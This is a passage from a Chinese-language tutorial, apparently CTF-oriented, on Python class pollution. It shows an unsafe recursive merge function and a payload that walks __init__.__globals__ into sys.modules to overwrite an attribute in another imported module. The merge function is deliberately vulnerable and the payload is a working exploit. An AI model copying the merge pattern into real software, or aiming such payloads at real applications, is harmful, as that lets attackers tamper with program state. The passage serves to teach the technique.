 这样子就可以去应对于不存在继承链的情况

Question2
=========

我们再想要一个场景，虽然说在一些题目场景来说，大多都是在main.py中去import一个test.py，并且关系比较简单的时候，通常都可以利用上面的方法来进行污染，当关系比较复杂的时候就比较麻烦，例如多层import 或者导入第三方库来导入的时候比较麻烦，这里就提供了几个方法

Module sys
----------

我们这里就可以利用sys来实现。这个应该不用多说了

main.py

```python
import test1  
import sys  
def merge(src, dst):  
    # Recursive merge function  
    for k, v in src.items():  
        if hasattr(dst, '__getitem__'):  
            if dst.get(k) and type(v) == dict:  
                merge(v, dst.get(k))  
            else:  
                dst[k] = v  
        elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))  
        else:  
            setattr(dst, k, v)  
class Test():  
    def __init__(self):  
        pass  

evil_playload = {  
    "__init__":{  
        "__globals__":{  
            "sys":{  
                "modules":{  
                    "test1":{  
                        "Test1": {  
                            "flag" :"flag{really_flag}"  
                            }  
                        }  
                    }  
                }  
            }  
        }  
    }  
test = Test()  
print(test1.Test1.flag)  
merge(evil_playload,test)  
print(test1.Test1.flag)
```
